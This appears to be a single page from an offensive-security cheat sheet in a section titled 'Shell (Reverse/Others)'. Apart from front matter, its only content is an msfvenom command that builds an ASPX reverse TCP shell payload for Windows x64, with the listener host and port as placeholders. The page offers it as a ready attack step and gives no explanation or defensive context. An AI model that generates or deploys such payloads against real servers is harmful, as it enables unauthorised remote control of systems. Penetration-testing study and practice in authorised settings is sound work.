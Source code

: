 ```yaml
---
title: ASPX
parent: Shell (Reverse/Others)
layout: default
nav_order: 7
---
```


`msfvenom -f aspx -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -o shell.aspx`